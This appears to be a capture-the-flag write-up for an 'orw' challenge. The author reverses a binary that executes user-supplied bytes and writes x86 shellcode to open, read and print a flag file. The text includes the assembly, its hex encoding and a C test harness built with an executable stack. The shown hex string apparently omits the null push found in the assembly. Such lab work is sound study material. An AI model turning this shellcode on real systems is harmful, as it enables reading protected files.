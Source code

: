 After opening the binary in IDA and looking at main, the following
section cought my eyes:

```assembly
push    offset aGiveMyYourShel ; "Give my your shellcode:"
call    _printf
add     esp, 10h
sub     esp, 4
push    0C8h
push    offset shellcode
push    0
call    _read
add     esp, 10h
mov     eax, offset shellcode
call    eax ; shellcode
```

The program reads 200 bytes from the user and executes them.
No need to find a vulnerability to exploit. Just to create
an appropriate shellcode to read the flag from /home/orw/flag.

This is what I came up with:

```assembly
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

push eax	; '/0'
push 0x67616C66	; galf
push 0x2F2F7772	; //wr
push 0x6F2F2F65	; o//e
push 0x6D6F682F	; moh/
mov al, 0x5	; sys_open
mov ebx, esp	; char* filename
int 0x80

mov ebx, eax 	; eax holds fd
xor eax, eax
mov al, 0x3	; sys_read
mov ecx, esp	; *buf
mov dl, 0x64	; count = 100 bytes
int 0x80

xor eax, eax
xor ebx, ebx
mov al, 0x4	; sys_write
mov bl, 0x1	; stdout
int 0x80
```

I converted the shellcode to hex using https://defuse.ca/online-x86-assembler.htm

```
"\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x68\x66\x6C\x61\x67\x68\x72\x77\x2F\x2F\x68\x65\x2F\x2F\x6F\x68\x2F\x68\x6F\x6D\xB0\x05\x89\xE3\xCD\x80\x89\xC3\x31\xC0\xB0\x03\x89\xE1\xB2\x64\xCD\x80\x31\xC0\x31\xDB\xB0\x04\xB3\x01\xCD\x80"
```

The fact that I'm writing my own shellcode teaches me concepts
that weren't straight forward before, such as the need to choose
the commands wisely to avoid null characters, otherwise it will
be prematurally terminated by the read function. This is the reason
for example to use mov al, 0x5 and not mov eax, 0x5.

To verify my shellcode locally, I used the following program:

```c
#include <stdio.h>
#include <string.h>
 
char shellcode[] = {
"\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x68\x66\x6C\x61\x67\x68\x72\x77\x2F\x2F\x68\x65\x2F\x2F\x6F\x68\x2F\x68\x6F\x6D\xB0\x05\x89\xE3\xCD\x80\x89\xC3\x31\xC0\xB0\x03\x89\xE1\xB2\x64\xCD\x80\x31\xC0\x31\xDB\xB0\x04\xB3\x01\xCD\x80"
};
 
int main()
{
    printf("Shellcode Length:  %d\n", (int)strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
 
    return 0;
}
```

I compiled it using:
```
gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellode
```

For the above to work, I had to install gcc-multilib, since I'm on
a 64bit machine (sudo apt-get install gcc-multilib).

When I run the program I got a segmentation fault. Let's see why:
```
>strace ./shellcode
open("/home//orw//flag\t\2VV\1", O_RDONLY) = -1 ENOENT (No such file or directory)
```

I forgot to null-termiate the filename.
I've added 'push eax' before pushing the rest of the string.
The shellcode now works and I got the flag.